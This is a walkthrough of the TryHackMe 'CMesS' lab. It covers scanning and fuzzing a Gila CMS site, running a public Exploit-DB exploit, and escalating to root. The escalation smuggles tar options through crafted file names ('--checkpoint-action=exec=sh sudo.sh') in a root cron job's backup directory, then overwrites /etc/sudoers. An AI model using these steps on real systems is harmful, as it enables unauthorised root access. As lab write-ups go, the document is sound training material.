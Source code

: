 > [!NOTE]
> https://tryhackme.com/room/cmess
> IP:10.10.206.203
> Please add `10.10.206.203 cmess.thm` to /etc/hosts

```bash
echo "10.10.206.203    cmess.thm" >> /etc/hosts
```

# NMAP
```bash
sudo nmap -p- -sC -sV -Pn 10.10.206.203 -T5 -v
```

```resoults
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# web
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511153124.png)


## Dirsearch
```bash
dirserach -u http://cmess.thm/
```
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154302.png)

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154326.png)
## FFUF
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cmess.thm/ -H "Host:FUZZ.cmess.thm" -ic -c -fw 522
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154149.png)

# RCE
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154449.png)

## searchcploit
```bash
searchcploit 1.10.9
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154613.png)

```bash
searchsploit -p 51569
```

```bash
cp /usr/share/exploitdb/exploits/php/webapps/51569.py Desktop/exploit.py
```

```bash
chmod +x exploit.py
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155117.png)

# LPE
```
andre:x:1000:1000:andre,,,:/home/andre:/bin/bash
```
### config.php
```
   'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  ),
```
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/0250511155440.png)

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155546.png)


![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155707.png)

## Flag1
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155841.png)
## andre to root
```bash
uname -a
```

```resoults
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511160242.png)

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

```bash
cd /home/andre/backup 
```

```bash
echo "" > "--checkpoint-action=exec=sh sudo.sh"
echo "" > "--checkpoint=1"
```

```bash
echo "echo 'andre ALL=(root) NOPASSWD: ALL ' > /etc/sudoers" > sudo.sh
```

```bash
sudo /bin/bash
```
# flag 2
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511173108.png)
